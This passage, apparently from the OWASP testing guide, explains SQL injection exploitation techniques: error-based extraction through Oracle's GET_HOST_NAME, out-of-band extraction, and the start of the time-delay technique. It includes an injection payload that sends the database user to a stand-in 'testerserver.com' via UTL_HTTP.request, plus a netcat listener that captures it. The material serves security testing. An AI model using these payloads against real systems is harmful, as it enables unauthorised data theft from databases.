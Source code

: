 In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

`ORA-292257: host SCOTT unknown`

Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

#### Out of Band Exploitation Technique

This technique is very useful when the tester find a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section.

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:

`http://www.example.com/product.php?id=10`

The malicious request would be:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`. The tester can set up a webserver (e.g. Apache) or use the Netcat tool:

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Time Delay Exploitation Technique

The time delay exploitation technique is very useful when the tester find a [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

`SELECT * FROM products WHERE id_product=$id_product`

Consider also the request to a script who executes the query above:
